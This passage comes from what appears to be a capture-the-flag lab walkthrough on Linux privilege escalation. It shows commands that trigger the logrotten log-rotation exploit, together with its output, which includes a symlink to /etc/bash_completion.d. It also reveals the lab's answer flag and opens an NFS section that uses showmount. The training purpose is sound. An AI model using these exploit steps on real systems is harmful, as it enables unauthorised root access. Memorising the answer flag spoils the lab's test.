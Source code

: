 Finally, students need to make an edit to the`/home/htb-student/backups/access.log` log file and trigger the exploit:

Code: shell

```shell
echo test >> /home/htb-student/backups/access.log; ./logrotten /home/htb-student/backups/access.log -p payload
```

```
htb-student@ubuntu:~/logrotten$ echo test >> /home/htb-student/backups/access.log; ./logrotten /home/htb-student/backups/access.log -p payload

Waiting for rotating /home/htb-student/backups/access.log...
Renamed /home/htb-student/backups with /home/htb-student/backups2 and created symlink to /etc/bash_completion.d
Waiting 1 seconds before writing payload...
Done!
```

With the exploit effectively creating a copy of the root flag, students need to read its contents:

Code: shell

```shell
cat home/htb-student/flag.txt
```

```
htb-student@ubuntu:~/logrotten$ cat home/htb-student/flag.txt

HTB{l0G_r0t7t73N_00ps}
```

The flag reads `HTB{l0G_r0t7t73N_00ps}`.

Answer: `HTB{l0G_r0t7t73N_00ps}`

# Miscellaneous Techniques

## Question 1

### "Review the NFS server's export list and find a directory holding a flag."

After spawning the target machine, students first need to list its exports using `showmount` with the `-e` (short version of the long version `--exports`) option:

Code: shell

```shell
showmount -e STMIP
```

```
┌─[us-academy-1]─[10.10.14.118]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ showmount -e 10.129.2.210

Export list for 10.129.2.210:
/tmp             *
/var/nfs/general *
```
